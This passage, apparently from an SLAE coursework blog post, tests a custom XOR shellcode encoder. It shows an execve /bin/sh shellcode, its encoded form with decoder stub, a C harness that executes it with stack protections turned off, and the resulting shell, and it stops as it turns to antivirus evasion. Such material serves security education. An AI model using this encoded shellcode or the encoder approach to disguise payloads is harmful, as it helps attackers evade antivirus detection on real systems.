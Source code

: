 Testing The Encoder
-------------------
To test the encoder, I used an execve shellcode, which will spawn a `/bin/sh` shell:

```shell_session
$ python xorfuscator.py '\xeb\x1a\x5e\x31\xdb\x88\x5e\x07\x89\x76\x08\x89\x5e\x0c\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43'

\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb2\x8c\xeb\x1f\x5e\x8d\x3e\x8a\x1c\x0f\x88\xdf\x88\xd0\x30\xd8\x74\x16\x66\x8b\x44\x0f\x01\x66\x31\xd8\x66\x89\x07\x41\x8d\x7f\x02\xeb\xe4\xe8\xdc\xff\xff\xff\x85\x6e\x9f\x12\x4c\x23\x71\xaa\xf9\xb5\xeb\xb2\x25\xac\x53\x76\x7e\xff\xd3\x8d\xdf\x4c\xc1\x52\x7f\xf2\x31\x3b\x33\xb6\xad\xfb\xa1\x1a\x2b\xda\xf2\x42\xf9\x52\x9f\xd2\x99\x71\x78\x1c\xe3\xe3\x44\xbb\x6b\x78\x1a\x11\xe5\x8b\xca\x32\x41\x5a\xe8\xa9\xaa\x31\x73\x73\xe6\xa4\xa5\x37\x74\x74\x4d\x0e\x4d\x8c
```

I then placed this shellcode into the same C program that I have used in the other SLAE posts:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
    unsigned char code[] = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb2\x8c\xeb\x1f\x5e\x8d\x3e\x8a\x1c\x0f\x88\xdf\x88\xd0\x30\xd8\x74\x16\x66\x8b\x44\x0f\x01\x66\x31\xd8\x66\x89\x07\x41\x8d\x7f\x02\xeb\xe4\xe8\xdc\xff\xff\xff\x85\x6e\x9f\x12\x4c\x23\x71\xaa\xf9\xb5\xeb\xb2\x25\xac\x53\x76\x7e\xff\xd3\x8d\xdf\x4c\xc1\x52\x7f\xf2\x31\x3b\x33\xb6\xad\xfb\xa1\x1a\x2b\xda\xf2\x42\xf9\x52\x9f\xd2\x99\x71\x78\x1c\xe3\xe3\x44\xbb\x6b\x78\x1a\x11\xe5\x8b\xca\x32\x41\x5a\xe8\xa9\xaa\x31\x73\x73\xe6\xa4\xa5\x37\x74\x74\x4d\x0e\x4d\x8c";

    printf("Shellcode length: %d\n", strlen(code));

    void (*s)() = (void *)code;
    s();

    return 0;
}
```

After compiling by running `gcc -m32 -fno-stack-protector -z execstack test_shellcode.c -o test` and running the `test` executable, it successfully decoded the payload and spawned a shell:

```shell_session
$ ./test
Shellcode length: 124
$ whoami
rastating
```

How Does It Affect AV Evasion?
------------------------------
After finishing coding the encoder and decoder, I was curious to see how anti-viruses would respond to it.
